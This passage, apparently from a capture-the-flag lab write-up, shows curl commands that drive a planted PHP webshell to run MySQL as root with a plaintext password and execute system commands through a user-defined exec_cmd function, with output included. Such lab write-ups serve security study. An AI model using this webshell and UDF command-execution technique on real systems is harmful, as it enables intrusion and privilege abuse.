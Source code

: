 ### exec_cmd

I can run the mysql binary through this webshell:

```bash
root@kali# curl -G http://10.10.10.207/shop/admin/../vqmod/xml/7HMS2.php --data-urlencode 'c=mysql -u root -pchangethis -e "SELECT @@version"'
@@version
5.7.30-0ubuntu0.18.04.1
```

The exec_cmd function does return output when run this way:

```bash
root@kali# curl -G http://10.10.10.207/shop/admin/../vqmod/xml/7HMS2.php --data-urlencode 'c=mysql -u root -pchangethis -e "SELECT exec_cmd(\"id\");"'
exec_cmd("id")
uid=111(mysql) gid=113(mysql) groups=113(mysql)\n\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
```

For some reason it appends a ton of \0 to the end. Multi-line output isn’t handled very well (as in most of it doesn’t come through):

```bash
root@kali# curl -G http://10.10.10.207/shop/admin/../vqmod/xml/7HMS2.php --data-urlencode 'c=mysql -u root -pchangethis -e "SELECT exec_cmd(\"ls /var/lib/mysql\");"'
exec_cmd("ls /var/lib/mysql")
auto.cnf\n\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
```
